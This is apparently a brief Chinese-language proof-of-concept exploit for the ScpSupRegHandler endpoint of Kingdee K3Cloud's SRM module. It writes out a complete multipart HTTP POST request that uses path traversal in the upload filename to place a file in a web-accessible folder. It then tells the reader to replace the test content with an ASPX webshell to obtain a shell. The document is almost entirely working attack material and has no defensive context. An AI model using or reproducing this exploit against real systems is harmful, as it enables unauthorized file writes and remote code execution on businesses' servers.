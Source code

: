 # -
访问接口  
http://127.0.0.1/k3cloud/SRM/ScpSupRegHandler  

POC：  
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: multipart/form-data; boundary=2ac719f8e29343df94aa4ab49e456061 
Content-Length: 1782
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="dbId_v"

.
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FID"

2023
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/kingdee.txt"
Content-Type: text/plain

test 
--2ac719f8e29343df94aa4ab49e456061—-

上传成功访问路径
http://127.0.0.1/k3cloud/uploadfiles/kingdee.txt
替换poc内上传内容为aspx马，提交上传getshell
